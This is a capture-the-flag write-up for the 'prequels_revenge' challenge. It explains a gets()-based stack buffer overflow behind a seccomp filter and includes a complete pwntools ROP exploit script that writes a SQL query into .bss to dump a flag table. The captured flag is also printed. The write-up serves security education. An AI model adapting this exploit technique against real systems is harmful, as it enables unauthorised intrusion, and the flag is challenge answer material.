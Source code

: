 # Overview
The given zip file contains a docker image with a 64 bit binary called prequel. There is also a `create_message_db.sh` script in the assets directory which creates an sqlite database in a file called `messages.db`

This challenge is essentially the same as `prequels`, but this time we don't have any debug functions or useful strings, so we have to be smart about constructing our ROP chain.

## Binary
![](screenshots/executable.png)
We have a statically linked 64-bit ELF executable. The symbols are fortunately not stripped. Pwntools' `checksec` says that there is stack canary protection in place - this is actually not true for the main function, and there isn't a memory segment that is writeable and executable at the same time. We also don't have to worry about ASLR, the binary starts always at the same address in the memory.

## Running the binary
![](screenshots/running_executable.png)

The binary asks for a name, does an sql query and prints out the result.

## Decompiling
![](screenshots/decompiled.png)

When we open up the binary in our favourite decompiler we can see that the program uses seccomp (Secure Computing mode). This is a feature in the Linux kernel that is designed to filter system calls.
We can use `seccomp-tools` to dump the restrictions.

![](screenshots/seccomp.png)

As you can see using execve and execveat results in terminating the process, so we can't really get a shell without exploiting the kernel itself in order to bypass the seccomp filter. However, this protection won't stop us from getting the flag.

## The vulnerability
![](screenshots/read_name.png)

The function `read_name` calls `gets` on a given buffer. It is a well-known fact that using `gets` is a bad idea, because it doesn't do a length check on the input at all before writing it to the buffer. This is a classical case of a stack-based buffer overflow.

## Exploitation
Our buffer in this case is 64 bytes long, and there is an 8 bytes long base pointer, so the offset will be 72 bytes till the return address.
We can also calculate this dynamically with the following code.
```python
from pwn import *

p = process("./prequels_revenge")
g = cyclic_gen()

p.sendline(g.get(100))
p.wait()

print(cyclic_find(p.corefile.fault_addr))
```

Since no segment is writeable and executable at the same time we have to use return oriented programming (ROP), we can't just send a shellcode and jump there.
This time our job is harder than the previous challenge, because there are no debug functions, and there is no `SELECT * FROM flag;` string in the binary that we could utilize for getting the flag.

Our new strategy is to call the gets on a writeable memory address (for example bss), write `SELECT * FROM flag;` to that place and then call get_messages with the query provided by us.
This is pretty easy, we need a pop rdi gadget, and the address of gets and get_message. We don't have to supply another parameter to get_message, because it only prints out a warning, when we don't supply the second parameter.

This time I utilized pwntools' automatic rop chain building capabilities.

```python
from pwn import *

context.binary = elf = ELF("./prequels_revenge")

p = process()

r = ROP(elf)
r.raw(b"A" * 72) # padding

r.gets(elf.bss()) # elf bss is a writeable memory address
r.get_message(elf.bss())

p.sendline(r.chain())
p.sendline(b"SELECT * FROM flag;")
p.recvuntil(b"Failed to bind text: column index out of range\n")

flag = p.recvline().decode()
log.info("Got flag: " + flag)
```

Running the exploit on remote yields the following flag: `HCSC24{h0pe_y0u_u53d_the_str1nG_1n_pR3qu3l_4nd_n0t_b0ring_r34d}`
This is pretty funny, because my first method for solving the previous challenge named `prequels` was this exploit, then I realized there is a simpler way, but actually this was beneficial, because on the second day this challenge came out and I already had this exploit.
